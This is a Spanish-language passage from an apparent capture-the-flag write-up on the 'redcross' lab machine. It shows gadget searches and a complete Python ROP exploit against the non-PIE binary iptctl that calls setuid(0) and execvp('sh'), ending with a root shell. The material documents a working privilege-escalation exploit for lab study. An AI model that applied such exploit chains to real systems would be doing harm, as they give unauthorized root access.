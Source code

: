 Al no haber PIE, las direcciones en la PLT de execvp y setuid están estáticas. Querriamos manipularlas para que salga:
**execvp("bash",0)** y **setuid(1)**
```console
└─$ objdump -D ./iptctl | grep -E "execvp|setuid"
400d13:	e8 48 fa ff ff       	call   400760 <execvp@plt>
400d00:	e8 7b fa ff ff       	call   400780 <setuid@plt>
```
¿Como le pasamos los argumentos a las funciones luego? Como estamos en 64 bits funciona tal que una función lee los argumentos guardados en 
registros en este orden de prioridad -> **rdi rsi rdx r8 y r9**. Esos registros primero hay que abrirlos y luego cargar valores dentro.
```console
└─$ ropper --search "pop rdi" -f ./iptctl  # Para el primer argumento "sh"
0x0000000000400de3: pop rdi; ret; 

└─$ ropper --search "pop rsi" -f ./iptctl # Para el segundo, aunque abra r15, podemos meter "caca" ahi que da igual
0x0000000000400de1: pop rsi; pop r15; ret;

gef➤  grep "sh"
0x40046e - 0x400470  →   "sh" 
```
He creado el exploit en la máquina vicima para evitar problemas y como corre con python (1) he usado las liberias más básicas como struct en vez
de tirar de pwntools. Siempre recomiendo utulizar las herrameintas por defecto y mas simples para poder trabajar en cualquier entorno.

```python
import struct

junk = b"allow" + b"A"*29
pop_rdi = struct.pack('<q',0x400de3)
setuid = struct.pack('<q', 0x400780)
sh = struct.pack('<q',0x40046e)
pop_rsi = struct.pack('<q',0x400de1)
null = struct.pack('<q',0x0)
execvp = struct.pack('<q',0x400760)

payload = junk + pop_rdi + null + setuid + pop_rdi + sh + pop_rsi + null + null + execvp + b"\n127.0.0.1\n"
print(payload)
```
Es decir 
1. Metemos la basura para llegar a donde la pila  
2. Abrimos rdi para meterle un valor nulo a setuid quedando como **setuid(0)** o sea que opere como root.
3. Abrimos rdi para meterle a execvp "sh" pero tambien hay que meterle un segundo argumento nulo, el tema esque pop rsi nos abre otro registro más (r15) así que otro null extra
4. Le metemos la ip junto con dos "\n" que equivalen a darle al boton ENTER.

```console
python /tmp/exploit.py > /tmp/text
www-data@redcross:/opt/iptctl$ (cat /tmp/text; cat) | ./iptctl -i
Entering interactive mode
whoami
root
```
----------------------------
# Extra: Script en c de iptctl
